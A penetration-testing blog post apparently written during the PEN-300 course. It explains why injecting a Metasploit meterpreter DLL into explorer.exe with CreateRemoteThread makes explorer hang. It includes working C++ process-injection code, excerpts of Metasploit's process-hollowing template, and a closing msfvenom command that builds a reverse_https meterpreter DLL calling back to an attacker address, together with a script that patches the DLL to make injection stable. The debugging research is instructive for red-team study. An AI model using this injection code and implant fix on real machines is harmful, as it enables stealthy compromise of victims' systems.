




Quite recently, I started working on the [PEN-300: Advanced Evasion Techniques and Breaching Defenses](https://www.offsec.com/courses/pen-300/) course from OffSec. One of the process injection techniques discussed in the _Process Injection and Migration_ chapter is making the remote process load a DLL via `LoadLibrary` and `CreateRemoteThread`. In the course, we are requested to inject a DLL generated by `msfvenom` from the [metasploit framework](https://www.metasploit.com/) into the `explorer.exe` process. When running this I noticed that explorer.exe became unstable when the DLL was injected. This blog post goes into the understanding, research and solution I used to solve this issue.  

<!--more-->

## Motivation

As described above, one of the classic techniques taught for process injection, involves using a couple of Win32 APIs to make the remote process load a library whose path is injected into the process. This is done by making the remote process start a thread, executing `LoadLibrary` with the path of the DLL as a parameter which ends up loading the DLL into the target process. Injecting a DLL generated by `msfvenom` into `explorer.exe` is ideal for keeping stealthy (even though writing the DLL to disk is questionable). The code to do so is in the [Injector project](https://github.com/reubensammut/InjectPoC/tree/master/Injector) which can be found on a [GitHub repository](https://github.com/reubensammut/InjectPoC) I created as a PoC for this blog post, however the most important part can be found in the code extract below. The code used in the course is written in C#, however for the purposes of this blog post, I wrote everything in C++.

```C
void Inject(int pid, const char* path)
{
	HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
	
	LPVOID addr = VirtualAllocEx(hProc, NULL, 0x1000, 
		MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	
	size_t nWritten = 0;
	
	WriteProcessMemory(hProc, addr, path, strlen(path), &nWritten);
	
	LPTHREAD_START_ROUTINE procAddr = (LPTHREAD_START_ROUTINE)&LoadLibraryA;
	
	CreateRemoteThread(hProc, NULL, 0, procAddr, addr, 0, NULL);
}
```

Usually after running `LoadLibrary`, one would need to run `GetProcAddress` to locate the address of the function that needs to be executed, and then execute the function with the required parameters. Luckily DLLs have an optional entry point function which is called on `LoadLibrary`, `FreeLibrary` and on attach or detach by the first thread of a process. This function is `DllMain`, the details of which can be found [here](https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain).

```C
BOOL WINAPI DllMain( 
	_In_ HINSTANCE hinstDLL, 
	_In_ DWORD fdwReason, 
	_In_ LPVOID lpvReserved 
);
```

The reason for calling this method by the different function is specified in the `fdwReason` parameter, with `DLL_PROCESS_ATTACH` being the reason used by `LoadLibrary`. DLLs like the ones generated by `msfvenom` execute their payload on DLL load as can be seen in the [template](https://github.com/rapid7/metasploit-framework/blob/d29f5690a172cbe6741bff9165dc2d133c222ecc/data/templates/src/pe/dll/template.c) used by metasploit to generate DLLs. 

```C
BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
	switch (dwReason)
	{
		case DLL_PROCESS_ATTACH:
			ExecutePayload();
			break;
		case DLL_PROCESS_DETACH:
			// Code to run when the DLL is freed
			break;
		case DLL_THREAD_ATTACH:
			// Code to run when a thread is created during the DLL's lifetime
			break;
		case DLL_THREAD_DETACH:
			// Code to run when a thread ends normally.
			break;
	}
	return TRUE;
}
```

Using this code to inject a meterpreter DLL into `explorer.exe`, it was noticed that while the exploit does work, `explorer.exe` becomes unstable and unresponsive, until it hangs, gets killed and respawned. Although other techniques exist which can be used, it was strange that this was happening. 

## Research

### MSDN

Looking at the [Dynamic-Link Library Best Practices](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-best-practices) documentation, we notice that Microsoft says that there are certain tasks which should not be performed within `DllMain`. I've highlighted ones that are particularly interesting to me. 

>You should never perform the following tasks from within [**DllMain**](https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain):
> - Call [**LoadLibrary**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) or [**LoadLibraryEx**](https://learn.microsoft.com/en-us/windows/desktop/api/LibLoaderAPI/nf-libloaderapi-loadlibraryexa) (either directly or indirectly). This can cause a deadlock or a crash.
> - ...
> - Synchronize with other threads. This can cause a deadlock.
> - Acquire a synchronization object that is owned by code that is waiting to acquire the loader lock. This can cause a deadlock.
> - ...
> - Call [**CreateProcess**](https://learn.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createprocessa). Creating a process can load another DLL.
> - Call [**ExitThread**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-freelibraryandexitthread). Exiting a thread during DLL detach can cause the loader lock to be acquired again, causing a deadlock or a crash.
> - Call [**CreateThread**](https://learn.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread). Creating a thread can work if you do not synchronize with other threads, but it is risky.
> - ...

From the documentation of [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread), we also see the following remark

>The [ExitProcess](https://learn.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-exitprocess), [ExitThread](https://learn.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-exitthread), [CreateThread](https://learn.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread), **CreateRemoteThread** functions, and a process that is starting (as the result of a [CreateProcess](https://learn.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createprocessa) call) are serialized between each other within a process. Only one of these events occurs in an address space at a time. This means the following restrictions hold:
> - During process startup and DLL initialization routines, new threads can be created, but they do not begin execution until DLL initialization is done for the process.
> - Only one thread in a process can be in a DLL initialization or detach routine at a time.
> - [ExitProcess](https://learn.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-exitprocess) returns after all threads have completed their DLL initialization or detach routines.

From these two articles, we can clearly see that:
- there is some sort of lock between `ExitProcess`, `ExitThread`, `CreateThread` and `CreateRemoteThread` which allows only one event to occur at a time within a process
- using certain functionality from `DllMain` could cause issues such as deadlocks

### Metasploit

As we've seen previously in the [DLL template](https://github.com/rapid7/metasploit-framework/blob/d29f5690a172cbe6741bff9165dc2d133c222ecc/data/templates/src/pe/dll/template.c), DLLs generated by metasploit have the `DllMain` function which calls an `ExecutePayload` function on `DLL_PROCESS_ATTACH`. Looking at what the code in `ExecutePayload`, we see that DLL itself launches a `rundll32.exe` suspended process, injects shellcode into it and hijacks thread execution in the new process to execute the injected shellcode using `GetThreadContext` and `SetThreadContext`. Finally it calls `ResumeThread` to actually execute the shellcode. 

From the research done and going through the `ExecutePayload` function, we can highlight the following.

```C
void ExecutePayload(void) {
	// ...
	if (Synchronize()) {
		// Create a suspended process, write shellcode into stack, make stack RWX, 
		// resume it
		DWORD result = CreateProcess(NULL, "rundll32.exe", NULL, NULL, TRUE, 
			CREATE_SUSPENDED|IDLE_PRIORITY_CLASS|CREATE_BREAKAWAY_FROM_JOB, NULL, 
			NULL, &si, &pi);
		// If we fail, try again without the CREATE_BREAKAWAY_FROM_JOB flag in the 
		// event that we are in a job but we can't break away from it.
		if (result == FALSE){
			result = CreateProcess(NULL, "rundll32.exe", NULL, NULL, TRUE, 
				CREATE_SUSPENDED|IDLE_PRIORITY_CLASS, NULL, NULL, &si, &pi);
		}
		//...
	}
	//...
	ExitThread(0);
}
```

The functions `CreateProcess` and `ExitThread` have been highlighted as they could possibly be problematic. The DLL Best Practices documentation tells us that `CreateProcess` could cause another DLL load. Since no additional information is provided, we will assume that this means that the launched process would also try to load a DLL in our process, via whatever method possible. `ExitThread` is mentioned in both articles as being possibly problematic. To verify this, we'll create a simplified PoC, where we'll create a thread to load an arbitrary DLL. We'll also create two identical DLLs, one of which returns from the `DllMain` via `return TRUE`, while the other one uses `ExitThread`. We'll see how the application reacts to loading both DLLs, and try to verify that the one with `ExitThread` causes issues.

## PoC

All the code for this PoC can be found [here](https://github.com/reubensammut/InjectPoC) with the title of each section having the same name as each project in the PoC.

### Injectee

This is the application that will be used to load the DLLs. The application runs in a loop and accepts keyboard input. It accepts two commands

```text
Usage:
        load <dllname>  Loads a dll into the process
        exit            Exit the process
```

When calling `load <dllname>`, a thread is created which loads the specified DLL as follows

```C
DWORD WINAPI myThread(LPVOID lpParameter)
{
	char* libPath = (char*)lpParameter;
	
	cout << "[Thread] - Trying to load library" << endl;
	
	HMODULE hLib = LoadLibraryA(libPath);
	
	FreeLibrary(hLib);
	
	delete[] libPath;
	
	return 0;
}
```

We also call `FreeLibrary` to be able to load a library multiple times. 

### SampleGood

`SampleGood` is a DLL, which does not use any functions which could be problematic. The code for `DLL_PROCESS_ATTACH` just prints two statements, and looks as follows

```C
void DoStuff(void)
{
	printf("Hello world from a good DLL :)\n\n");
	printf("Returning normally\n");
}
```

As we see from the code of DllMain, the function returns TRUE once `DoStuff` is done.

```C
BOOL APIENTRY DllMain( HMODULE hModule,
						DWORD ul_reason_for_call,
						LPVOID lpReserved
					)
{
	switch (ul_reason_for_call)
	{
		case DLL_PROCESS_ATTACH:
			DoStuff();
			break;
		case DLL_THREAD_ATTACH:
			printf("[SampleGood.dll] - DLL_THREAD_ATTACH\n");
			break;
		case DLL_THREAD_DETACH:
			printf("[SampleGood.dll] - DLL_THREAD_DETACH\n");
			break;
		case DLL_PROCESS_DETACH:
			printf("[SampleGood.dll] - DLL_PROCESS_DETACH\n");
			break;
	}
	return TRUE;
}
```

### SampleBad

`SampleBad` does pretty much the same what `SampleGood` does. However, the `DoStuff` function emulates what the DLL generated by `msfvenom` does and calls `ExitThread(0)`. 

```C
void DoStuff(void)
{
	printf("Hello world from a bad DLL '(?_?)'\n\n");
	printf("Calling ExitThread\n");
	ExitThread(0);
}
```

## Running the PoC

Let's run the `Injectee` application and make it load the `SampleGood` library to get a base line. Since we're not using any problematic functions, we can see that the library load and unload work correctly and since we're unloading the library after each load, we can load it multiple times. 



As we see from the image above, we can load and unload multiple times, and when we exit the process, everything works correctly. It's important to note that on each load, the main thread outputs _"Trying to load \[library name\]"_, while the thread created to load and unload the library outputs _"\[Thread\] - Trying to load library"_.

Let's now run the `Injectee` application and load the `SampleBad` library.



There are multiple things that we notice now:
- We don't see the message that the DLL has been detached
- When we try to re-load the library, not only is the DLL not re-loaded, we don't even see the message from the thread that we're trying to load a library 
- The process hangs when we try to exit the process

Using the `Injector` project in our PoC code, we can also confirm that this happens with `CreateRemoteThread`. When we inject the `SampleGood` first and then the `SampleBad`, both DLLs are loaded, meaning that `CreateRemoteThread` ran in both cases (regardless of the fact that after loading `SampleBad` we're not able to run it anymore).



On the contrary, loading `SampleBad` first, we see that `CreateRemoteThread` does not work when we request to load `SampleGood`. 



## Results

From the previous section, we can build a hypothesis about what is happening:
- Since we never see the `DLL_PROCESS_DETACH` message when `ExitThread` is called, we can safely assume that `LoadLibrary` never returned. `LoadLibrary` should return when a `DllMain` returns with any value. 
- With the DLL loading/unloading thread stuck in `LoadLibrary`, we can also assume that the thread is also still running. 
- Both `CreateThread` (to load new DLLs) and `ExitProcess` (via the return from the main function) are not executing.  From our research, we know that `ExitThread`, `ExitProcess`, `CreateThread` and `CreateRemoteThread` calls are serialized, meaning only one of them can run within all threads of a process. This suggests some sort of lock that `ExitThread` is keeping.

Research and results show that `ExitThread` is indeed the issue. It also suggests that a lock is holding new threads from executing. Going back to our original question `explorer.exe` typically creates and destructs threads as needed, so locking the thread creation and deletion process would cause it to malfunction and eventually crash.

## Fix

After all this, we concluded that removing `ExitThread`, we would be able to correctly inject the DLL generated by `msfvenom`. For this reason, I created a python3 script which can be run on both a 64-bit and 32-bit DLL. The script looks for the bytes in the DLL that perform the `ExitThread` call and NOPs it out. This script can be found [here](https://gist.github.com/reubensammut/958333cd112b6bbe4883787950fc831d) and can be run using the following command

```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 \
	-f dll -o met.dll
python3 remove_exitthread_msf.py met.dll
```

## References
- [PEN-300 Course from OffSec](https://www.offsec.com/courses/pen-300/)
- [metasploit framework](https://www.metasploit.com/)
- [PoC code for this blog post](https://github.com/reubensammut/InjectPoC)
- [DllMain documention on MSDN](https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain)
- [DLL template used by metasploit](https://github.com/rapid7/metasploit-framework/blob/d29f5690a172cbe6741bff9165dc2d133c222ecc/data/templates/src/pe/dll/template.c)
- [Dynamic-Link Library Best Practices](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-best-practices)
- [CreateRemoteThread function](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
- [Gist to remove the `ExitThread`](https://gist.github.com/reubensammut/958333cd112b6bbe4883787950fc831d)
